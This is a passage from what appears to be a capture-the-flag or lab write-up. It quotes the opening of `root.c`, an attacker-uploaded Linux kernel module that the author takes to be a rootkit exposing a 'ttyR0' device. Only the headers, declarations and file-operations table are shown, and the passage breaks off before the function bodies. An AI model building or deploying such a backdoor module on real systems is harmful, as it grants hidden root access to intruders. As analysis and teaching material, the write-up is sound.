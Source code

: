 
It’s a kernel module, and I’m guessing based on the name, a rootkit. I’ll
download it.

### OSINT

Before opening this thing up to take a look, I’ll look at `root.c` that was
uploaded by the attacker:

    
    
    #include <linux/init.h>   
    #include <linux/module.h> 
    #include <linux/kernel.h>
    #include <linux/device.h>
    #include <linux/fs.h>    
    #include <asm/uaccess.h>
    #include <linux/slab.h>
    #include <linux/syscalls.h>
    #include <linux/types.h>
    #include <linux/cdev.h>
    #include <linux/cred.h>
    #include <linux/version.h>
    
    #define  DEVICE_NAME "ttyR0" 
    #define  CLASS_NAME  "ttyR"
    
    #if LINUX_VERSION_CODE > KERNEL_VERSION(3,4,0)
    #define V(x) x.val
    #else
    #define V(x) x
    #endif
    
    // Prototypes
    static int     __init root_init(void);
    static void    __exit root_exit(void);
    static int     root_open  (struct inode *inode, struct file *f);
    static ssize_t root_read  (struct file *f, char *buf, size_t len, loff_t *off);
    static ssize_t root_write (struct file *f, const char __user *buf, size_t len, loff_t *off);
    
    // Module info
    MODULE_LICENSE("GPL"); 
    MODULE_AUTHOR("pico");
    MODULE_DESCRIPTION("Got r00t!."); 
    MODULE_VERSION("0.1"); 
    
    static int            majorNumber; 
    static struct class*  rootcharClass  = NULL;
    static struct device* rootcharDevice = NULL;
    
    static struct file_operations fops =
    {
      .owner = THIS_MODULE,
      .open = root_open,
      .read = root_read,
      .write = root_write,
    };
    